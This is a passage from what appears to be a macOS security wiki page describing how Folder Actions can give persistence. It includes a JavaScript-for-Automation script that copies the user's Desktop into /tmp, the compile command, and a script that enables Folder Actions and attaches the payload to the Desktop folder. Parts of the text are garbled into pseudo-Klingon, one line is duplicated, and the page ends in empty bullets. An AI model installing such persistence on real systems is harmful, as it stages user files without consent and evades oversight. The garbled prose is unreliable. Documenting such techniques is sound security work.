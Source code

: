 #### Location

* **`/Library/Scripts/Folder Action Scripts`**
* Root required
* **Trigger**: Access to the specified folder
* **`~/Library/Scripts/Folder Action Scripts`**
* **Trigger**: Access to the specified folder

#### Description & Exploitation

Folder Actions are scripts automatically triggered by changes in a folder such as adding, removing items, or other actions like opening or resizing the folder window. These actions can be utilized for various tasks, and can be triggered in different ways like using the Finder UI or terminal commands.

To set up Folder Actions, you have options like:

1. Crafting a Folder Action workflow with [Automator](https://support.apple.com/guide/automator/welcome/mac) and installing it as a service.
2. Attaching a script manually via the Folder Actions Setup in the context menu of a folder.
3. Utilizing OSAScript to send Apple Event messages to the `System Events.app` for programmatically setting up a Folder Action.
* This method is particularly useful for embedding the action into the system, offering a level of persistence.

The following script is an example of what can be executed by a Folder Action:
```applescript
// source.js
var app = Application.currentApplication();
app.includeStandardAdditions = true;
app.doShellScript("touch /tmp/folderaction.txt");
app.doShellScript("touch ~/Desktop/folderaction.txt");
app.doShellScript("mkdir /tmp/asd123");
app.doShellScript("cp -R ~/Desktop /tmp/asd123");
```
To make the above script usable by Folder Actions, compile it using:

```
ghItlhlaHbe'chugh, Folder Actions laHbe'chugh, script vItlhutlh.
```
```bash
osacompile -l JavaScript -o folder.scpt source.js
```
**DaH jatlh script Hoch, Folder Actions qay'be' globally enable 'ej specifically attach previously compiled script Desktop folder.**

```
DaH script compiled, Folder Actions set up by executing script below. This script will enable Folder Actions globally and specifically attach previously compiled script to Desktop folder.
```
```javascript
// Enabling and attaching Folder Action
var se = Application("System Events");
se.folderActionsEnabled = true;
var myScript = se.Script({name: "source.js", posixPath: "/tmp/source.js"});
var fa = se.FolderAction({name: "Desktop", path: "/Users/username/Desktop"});
se.folderActions.push(fa);
fa.scripts.push(myScript);
```
QapHa' script laH jImej:
```bash
osascript -l JavaScript /Users/username/attach.scpt
```
* tlhIngan Hol:
* vaj jImej: 
